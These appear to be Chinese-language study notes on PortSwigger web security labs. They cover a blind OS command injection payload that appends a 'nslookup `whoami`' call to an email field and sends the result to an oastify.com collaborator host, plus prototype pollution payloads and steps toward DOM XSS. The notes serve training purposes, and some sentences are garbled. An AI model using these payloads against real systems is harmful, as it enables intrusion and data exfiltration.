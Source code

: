 97已经预判了

aaa%40qq.cn;/usr/bin/nslookup `whoami`.4pu740ogzcylrqbehfmdnlflqcw4ku8j.oastify.com #

# 13**原型污染** 

![image-20250724004408844](portswigger.assets/image-20250724004408844.png)

`username`对象可以访问 和 的属性和`String.prototype`方法`Object.prototype`。，因此这条链最终会回到顶层的`Object.prototype`，其原型就是`null`。

成功利用原型污染需要以下关键要素：

- 原型污染源——这是任何使您能够用任意属性毒害原型对象的输入。

- 接收器 - 换句话说，就是能够执行任意代码的 JavaScript 函数或 DOM 元素。

- 可利用的小工具 - 这是任何未经适当过滤或清理就传递到接收器的属性。

  ```
  __proto__.[]=  constructor[prototype][polluted]=yes
  ```

  

## 99`.实验室：通过客户端原型污染进行 DOM XSS

![image-20250724190809337](portswigger.assets/image-20250724190809337.png)



### 手动：

注入payload

![image-20250724191710345](portswigger.assets/image-20250724191710345.png)

?__proto__[transport_url]=bar

![image-20250724195028601](portswigger.assets/image-20250724195028601.png)



控制台查看原型

![image-20250724191656052](portswigger.assets/image-20250724191656052.png)

说明污染源有了

查看源代码：![image-20250724191822710](portswigger.assets/image-20250724191822710.png)

疑似有gadget

![image-20250724194153868](portswigger.assets/image-20250724194153868.png)

插件：

![image-20250724194601420](portswigger.assets/image-20250724194601420.png)
